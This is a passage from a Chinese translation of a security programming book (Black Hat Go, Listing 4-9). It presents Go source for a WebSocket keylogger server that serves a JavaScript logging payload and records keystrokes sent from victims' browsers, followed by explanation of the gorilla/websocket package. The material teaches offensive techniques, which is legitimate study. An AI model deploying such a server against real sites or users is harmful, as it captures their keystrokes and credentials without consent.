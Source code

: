 ```

    listenAddr string
    wsAddr     string
    jsTemplate *template.Template
)

func init() {
    flag.StringVar(&listenAddr, "listen-addr", "", "Address to listen on")
    flag.StringVar(&wsAddr, "ws-addr", "", "Address for WebSocket connection")
    flag.Parse()
    var err error
 ❸ jsTemplate, err = template.ParseFiles("logger.js")
    if err != nil {
        panic(err)
    }
}

func serveWS(w http.ResponseWriter, r *http.Request) {
 ❹ conn, err := upgrader.Upgrade(w, r, nil)
    if err != nil {
        http.Error(w, "", 500)
        return
    }
    defer conn.Close()
    fmt.Printf("Connection from %s\n", conn.RemoteAddr().String())
 for {
     ❺ _, msg, err := conn.ReadMessage()
        if err != nil {
            return
        }
     ❻ fmt.Printf("From %s: %s\n", conn.RemoteAddr().String(), string(msg))
    }
}

func serveFile(w http.ResponseWriter, r *http.Request) {
 ❼ w.Header().Set("Content-Type", "application/javascript")
 ❽ jsTemplate.Execute(w, wsAddr)
}

func main() {
    r := mux.NewRouter()
 ❾ r.HandleFunc("/ws", serveWS)
 ❿ r.HandleFunc("/k.js", serveFile)
    log.Fatal(http.ListenAndServe(":8080", r))
}
```

*清单 4-9：按键记录服务器 (*[/ch-4/websocket_keylogger/main.go](https://github.com/blackhat-go/bhg/blob/master/ch-4/websocket_keylogger/main.go)*)*

我们有很多内容需要讨论。首先，请注意你使用了另一个第三方包`gorilla/websocket`来处理你的 WebSocket 通信❶。这是一个功能齐全、强大的包，它简化了你的开发过程，就像你在本章早些时候使用的`gorilla/mux`路由器一样。别忘了先在终端中运行`go get github.com/gorilla/websocket`。
